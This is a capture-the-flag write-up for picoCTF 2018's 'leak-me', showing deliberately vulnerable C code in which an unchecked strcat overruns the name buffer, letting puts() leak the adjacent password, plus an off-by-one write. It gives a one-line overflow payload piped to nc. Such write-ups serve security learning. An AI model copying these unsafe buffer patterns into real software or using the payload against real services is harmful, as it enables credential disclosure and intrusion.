 leak-me - Points: 200
===========

## Description

>Can you authenticate to this service and get the flag? Connect with nc 2018shell1.picoctf.com 38315. 

## Hint:

> *  Are all the system calls being used safely?
> *  Some people can have reallllllly long names you know..

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}


int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  // real pw: 
  FILE *file;
  char password[64];
  char name[256];
  char password_input[64];
  
  memset(password, 0, sizeof(password));
  memset(name, 0, sizeof(name));
  memset(password_input, 0, sizeof(password_input));
  
  printf("What is your name?\n");
  
  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }

  strcat(name, ",\nPlease Enter the Password.");

  file = fopen("password.txt", "r");
  if (file == NULL) {
    printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(password, sizeof(password), file);

  printf("Hello ");
  puts(name);

  fgets(password_input, sizeof(password_input), stdin);
  password_input[sizeof(password_input)] = '\x00';
  
  if (!strcmp(password_input, password)) {
    flag();
  }
  else {
    printf("Incorrect Password!\n");
  }
  return 0;
}
```

## Useful Information

> * the "\x00" is not properly managed with the variable name. 


## Exploit

**Overflowing the name for concatenate it with the password variable(no "\x00" delimiters between them):**

> * python -c 'print "A"*500'|.nc 2018shell1.picoctf.com 38315
> * Use the printed password to get the Flag
